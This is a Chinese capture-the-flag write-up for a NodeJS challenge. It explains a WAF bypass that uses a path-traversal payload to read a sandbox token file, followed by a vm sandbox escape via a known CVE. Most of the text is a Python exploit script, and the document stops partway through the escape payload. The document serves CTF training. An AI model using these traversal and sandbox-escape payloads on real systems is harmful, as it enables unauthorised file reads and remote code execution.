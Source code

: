 
## vm出逃计划

考点：绕过waf读取敏感文件，vm逃逸（CVE）

出题人：ch3

难度：简单

### 思路

默认路由下会生成vmtoken，这是进入sandbox执行任意代码的一个check

在show路由下可以读，但是有个tricky的小waf，payload自己调试构造出来如下：

``` 
payload1 = '?path=.jpg./../vmtoken.txt'
```

然后就是一个NodeJS的VM沙箱逃逸历史洞，对照历史版本去GitHub的issue里面找就行

### 完整EXP

``` python
import requests
import time
from urllib.parse import quote

baseURL = "http://127.0.0.1:3000"
s = requests.Session()

# generate token
resp = s.get(baseURL)

time.sleep(1)

# Read token
attackURL1 = '/show'
payload1 = '?path=.jpg./../vmtoken.txt'
resp = s.get(baseURL+attackURL1+payload1)
if resp.status_code == 200:
    print(f'[+]get vm token: {resp.text}')
else:
    print(f'[-]can not get the vm token')
    s.close()
    exit(1)

token = resp.text

# RCE
attackURL2 = '/sandbox'

# 这个payload只能RCE一次,有点怪
rcecode1 = """
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
```